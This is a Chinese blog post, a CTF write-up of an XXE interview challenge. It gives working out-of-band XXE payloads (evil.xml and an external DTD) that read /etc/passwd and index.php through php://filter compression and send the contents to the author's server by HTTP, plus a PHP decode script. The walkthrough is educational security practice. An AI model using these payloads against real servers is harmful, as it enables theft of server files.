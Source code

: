 ```yaml
---
title: 记一次面试某安全公司一道XXE漏洞CTF面试题
date: 2019-03-15 15:54:09
tags: 
	- XXE
	- CTF
categories: 
---
```


### 0x00 说在前面的话

最近面试一家安全公司，拿到一套CTF题目作为面试前的技术能力测试。其中有一道XEE漏洞的题目，碰巧最近正在研究学习XXE漏洞，过程中遇到了一些坑，隧做个记录。

下面直接进入主题...

<!-- more -->

### 0x01 正文

#### 1.起步

首先，点击题目链接进入，发现是一个RSS checker的页面，页面有一个输入框要求输入URL地址，直接随意输入一个地址，点击提交查询。

![](记一次面试某安全公司一道XXE漏洞CTF面试题\00.png)

提交后返回XML文档无效“XML document is not valid”的信息，由此可以知道此处应该是需要我们提供一个XML文档的URL地址。既然是XML文档，那么首先考虑到的存在XEE漏洞。

#### 2.漏洞验证

接下来就是要验证是否存在XXE漏洞，确定漏洞存在的根本是要证明目标服务器允许外部实体。所以证明的整体思路为：

> 1.让目标服务器访问请求我们提供的XML文档。
>
> 2.我们提供的XML文档中使用了外部实体。
>
> 3.若我们的XML文档中的外部实体被解析了，则证明漏洞存在。

首先，要让目标服务器请求我们的XML文档的话，我们得先有一台外网服务器，话不多说，直接去搞一个腾讯云学生服务器。

搞定了服务器后，直接在服务器上创建一个XML文档，命名为evil.xml，内容如下：

```
<?xml version="1.0"?> 
<!DOCTYPE ANY [ 
<!ENTITY % test SYSTEM "http://148.x.x.141/xxe_test">
%test;
]>
```

![](记一次面试某安全公司一道XXE漏洞CTF面试题\01testxml.png)

接着为了让目标服务器可以获取我们的evil.xml，我们需要一个HTTP服务器。直接使用Python建立一个简单的WEB服务，输入命令：`python -m SimpleHTTPServer 80`。这样我们的服务器就会开启一个监听在80端口的HTTP服务。

![](记一次面试某安全公司一道XXE漏洞CTF面试题\QQ截图20190315163014.png)

再接下来就是要让目标服务器请求我们的evil.xml了，在网页输入我们evil.xml的URL然后点击提交查询，然后观察我们服务器上HTTP服务的访问情况。

![](记一次面试某安全公司一道XXE漏洞CTF面试题\02prove.png)

在上图中，可以看到目标服务器向我们的服务器发起了两次请求，第一次请求evil.xml文档。第二次请求了`/xxe_test`，这正是我们在evil.xml中定义的引用外部实体。简单说就是我们在网页上输入我们的evil.xml的URL地址，目标服务器不但请求了我们的evil.xml文档，还解析执行了evil.xml的内容。evil.xml中`<!ENTITY % test SYSTEM "http://148.x.x.141/xxe_test">`就是外部实体，若允许外部实体，这条语句就会执行，执行的结果就是向`http://148.x.x.141/xxe_test`(即我们的服务器)发起请求。我们在服务器上看到该请求，也就证明目标服务器允许外部实体，也即存在XXE漏洞。

#### 3.漏洞利用

确定了漏洞的存在，接下来就是利用漏洞搞事。XXE最常见的利用方式就是进行任意文件读取。获取敏感重要文件的内容。

读取文件之前我们需要确定以什么方式读取：直接回显还是带外通道。

直接回显即目标服务器会把结果直接放于响应页面中返回。观察响应页面就只有XML文档有效或无效的信息。显然我们只能采取带外通道读取的方式。读取文件的大概思路如下：

> 1.确定要读取的文件，如/etc/passwd。
>
> 2.再创建一个文件，文件内容是定义实体，具体内容见下面。
>
> 3.修改evil.xml的内容，并将上一步创建的文件引用进来，具体内容见下面。

首先，我们先尝试读取目标服务器的`/etc/passwd`文件。evil.xml文件内容为：

```
<?xml version="1.0"?> 
<!DOCTYPE ANY [ 
<!ENTITY % file SYSTEM "php://filter/zlib.deflate/read=convert.base64-encode/resource=/etc/passwd">
<!ENTITY % dtd SYSTEM "http://148.70.34.141/data.dtd">
%dtd; %payload; %send;
]>
```

- 第3行作用是读取`/etc/passwd`文件内容，并使用php filter将内容进行压缩及Base64编码。

- 第4行引用了另一个文件，文件名为data.dtd，文件的内容如下：

  ```
  <!ENTITY % payload "<!ENTITY &#37; send SYSTEM 'http://148.70.34.141/?data=%file;'>">
  ```

  - 该文件定义了一个实体，实体的内容又定义了另一个实体，内层实体的作用是将第三行压缩打包的内容作为HTTP请求参数发送到我们的HTTP服务器上。
  - `&#37;`是`%`的实体，内层的实体的`%`必须要使用实体形式，否则是不能解析的。
  - 之所以还需要创建该文件，而不能将该文件内容直接定义在evil.xml中，是因为直接在evil.xml中定义是不生效的，不能在实体定义中引用参数实体，即有些解释器不允许在内层实体中使用外部连接，无论内层是一般实体还是参数实体。

- 大概梳理一下两个文件的实体解析过程：

  > 1. `%dtd;`会执行evil.xml的第3行，执行的结果是引用了`data.dtd`文件，可以简单认为将`data.dtd`的文件内容替换`%dtd;`。
  >
  > 2. `%payload;`执行的就是`data.dtd`的内容，可简单认为，`%payload;`会被`<!ENTITY &#37; send SYSTEM 'http://148.70.34.141/?data=%file;'>`进行替换。
  > 3. `%send;`会向`http://148.70.34.141/?data=%file;`发起请求，而发起请求前，`%file;`也会被解析，被压缩加密的`/etc/passwd`文件内容进行替换。

编写好Payload文件之后，继续之前的操作，让目标服务器请求我们的evil.xml文件。

![](记一次面试某安全公司一道XXE漏洞CTF面试题\04readpasswd.png)

并没有成功读取`/etc/passwd`，而是报错了，根据错误信息我们可以知道，目标服务器对允许读取的路径进行了权限控制，只允许读取的路径为：`/challenge/web-serveur/ch29`。

那么我们只能读取其他文件了，根据错误信息我们还可以知道，被允许读取的路径下，存在一个`index.php`文件，尝试读取该文件，只需要的evil.xml文件中的`/etc/passwd`改为`./index.php`（允许使用相对路径）即可。

修改好evil.xml文件后，继续让目标服务器请求。发现被压缩加密的`index.php`文件内容被成功发送到我们的服务器。

![](记一次面试某安全公司一道XXE漏洞CTF面试题\06readindex.png)

接下来就是将压缩编码内容进行解压解码。此处可以编写一个接收的页面进行解压解码。由于环境原因，我的操作是将压缩编码的文件内容复制保存到一个文件中，文件名tmp.txt。然后创建一个php文件，内容为：

```
<?php 
echo file_get_contents("php://filter/read=convert.base64-decode/zlib.inflate/resource=tmp.txt");
?>
```

将该php文件放到phpstudy的web根目录下并访问，就可以在页面中找到flag。

![](记一次面试某安全公司一道XXE漏洞CTF面试题\flag.png)

### 0x03 总结

做下来之后，题目的难度不算高，但是期间遇到了一个坑，感觉payload什么的都设置的没有问题了，但是一直读取不了文件，为此花了很长时间，最终查了一下资料才知道，使用 libxml 读取文件内容的时候，文件不能过大，如果太大就会报错。

刚开始使用的是：`php://filter/read=convert.base64-decode/resource=`，只对文件内容进行编码，所以文件过大无法发送。后面使用：`php://filter/read=convert.base64-decode/zlib.inflate/resource=`进行压缩编码才成功读取。

> 压缩及编码：`echo file_get_contents("php://filter/zlib.deflate/convert.base64-encode/resource=/etc/passwd");`
> 解压及解码：`echo file_get_contents("php://filter/read=convert.base64-decode/zlib.inflate/resource=/tmp/1");`

**参考链接：**

https://xz.aliyun.com/t/3357